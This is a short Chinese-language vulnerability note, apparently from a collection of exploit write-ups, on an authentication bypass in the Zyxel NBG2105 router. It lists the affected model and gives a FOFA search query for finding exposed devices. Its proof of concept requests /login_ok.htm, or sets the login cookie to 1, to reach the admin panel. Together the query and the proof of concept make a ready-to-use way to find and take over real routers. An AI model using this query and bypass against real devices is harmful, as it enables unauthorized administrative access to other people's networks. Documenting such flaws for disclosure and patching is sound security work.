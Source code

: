 # Zyxel NBG2105身份验证绕过

# 一、漏洞简介
在Zyxel NBG2105 V1.00（AAGU.2）C0设备上，将登录cookie设置为1可提供管理员访问权限。

# 二、影响版本
+ Zyxel NBG2105

# 三、资产测绘
+ fofa`app="ZyXEL-NBG2105"`
+ 特征

![1696166434348-7921a2e3-c0d4-41ac-8c65-ea4a29f88c1b.png](./img/8b_DE99WV4FLOPh1/1696166434348-7921a2e3-c0d4-41ac-8c65-ea4a29f88c1b-935700.png)

# 四、漏洞复现
直接访问如下poc即可绕过身份验证进入后台

```plain
/login_ok.htm
```

![1696166524962-f85cc736-9d74-4e94-a204-90dfd7dc8829.png](./img/8b_DE99WV4FLOPh1/1696166524962-f85cc736-9d74-4e94-a204-90dfd7dc8829-508453.png)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ofagy15qnxr8eg9f>